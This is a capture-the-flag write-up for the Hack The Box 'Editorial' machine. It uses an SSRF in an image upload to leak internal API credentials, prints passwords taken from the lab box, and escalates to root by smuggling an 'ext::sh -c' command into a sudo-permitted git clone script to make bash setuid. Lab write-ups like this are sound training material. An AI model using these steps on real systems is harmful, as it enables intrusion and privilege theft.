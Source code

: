```yaml
---
title:  HTB - Editorial
date: 2020-11-18 12:17:34 -0400
categories: [hackthebox , Editorial]
tags: [pivot, red, team, network, chisel]
image:
  path: /assets/img/post/editorial/Editorial-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Editorial.
---
```


## Box Info

| Name                  | Editorial        | 
| :-------------------- | ---------------: |
| Release Date          | 15 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

![Image](/assets/img/post/editorial/image.png)

echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts  
![Image](/assets/img/post/editorial/image-1.png)
whatweb:
![Image](/assets/img/post/editorial/image-2.png)
Web:
![Image](/assets/img/post/editorial/image-3.png)
dirsearch -u http://editorial.htb/ 
![Image](/assets/img/post/editorial/image-4.png)

This page is interesting, we can preview an image from a file or url.

![Image](/assets/img/post/editorial/image-5.png)

## SSRF

The file name is renamed and the file extension is removed. When we open the preview image in a new tab, the file downloaded directly, so it seems like we can’t execute any shell directly.

When I upload a file and add a url "http://127.0.0.1/" and intercept with BurpSuite, we can see the response 200 OK and showing a image directory location, this point to a `SSRF`.

![Image](/assets/img/post/editorial/image-6.png)

In an [SSRF](https://portswigger.net/web-security/ssrf) attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` (a reserved IP address that points to the loopback adapter) or `localhost` (a commonly used name for the same adapter)

![Image](/assets/img/post/editorial/image-7.png)

The response shows us a directory path, let's download the file and see what's inside.

![Image](/assets/img/post/editorial/image-8.png)

![Image](/assets/img/post/editorial/image-9.png)


![Image](/assets/img/post/editorial/image-10.png)

And re upload the file and add the path in burpsuite.

`/api/latest/metadata/messages/authors`{: .filepath}

![Image](/assets/img/post/editorial/image-11.png)

![Image](/assets/img/post/editorial/image-12.png)

Username: dev - Password: dev080217_devAPI!@
![Image](/assets/img/post/editorial/image-13.png)

user flag
![Image](/assets/img/post/editorial/image-14.png)

![Image](/assets/img/post/editorial/image-15.png)

### Linux Enumeration

```bash
find / -user dev 2>/dev/null | grep -vE "sys|proc"
```

![Image](/assets/img/post/editorial/image-16.png)


![Image](/assets/img/post/editorial/image-17.png)

The command `Git show` displays detailed information about a commit.

![Image](/assets/img/post/editorial/image-18.png)


![Image](/assets/img/post/editorial/image-19.png)

080217_Producti0n_2023!@ for prod
- su `prod`
- password: `080217_Producti0n_2023!@`

## Privilege Escalation

sudo -l

![Image](/assets/img/post/editorial/image-20.png)

```bash
- echo '#!/bin/bash' > /tmp/exploit.sh

- echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```

![Image](/assets/img/post/editorial/image-21.png)

```bash
- sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```

![Image](/assets/img/post/editorial/image-22.png)

- `ls -l /bin/bash`

![Image](/assets/img/post/editorial/image-23.png)

Start a new bash session.

- `/bin/bash -p` 

![Image](/assets/img/post/editorial/image-24.png)

